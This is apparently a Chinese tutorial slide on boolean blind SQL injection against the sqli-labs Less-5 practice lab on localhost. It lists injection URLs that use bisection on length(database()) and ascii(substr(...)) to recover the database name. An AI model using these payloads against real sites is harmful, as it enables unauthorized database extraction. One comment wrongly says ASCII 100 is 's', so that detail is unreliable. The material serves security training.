

SQL注入漏洞-盲注
2）判断数据库名

1：判断当前数据库的长度，利用二分法
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>5 --+  //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>10 --+  //不显示任何数据
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>7 --+  //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>8 --+  //不显示任何数据
大于7正常显示，大于8不显示，说明大于7而不大于8，所以可知当前数据库长度为8个字符

2：判断当前数据库的字符,和上面的方法一样，利用二分法依次判断
//判断数据库的第一个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),1,1))>115 --+ //100为ascii表中的十进制，对应字母s
//判断数据库的第二个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),2,1))>100 --+
//判断数据库的第三个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),3,1))>100 --+
...........
由此可以判断出当前数据库为 security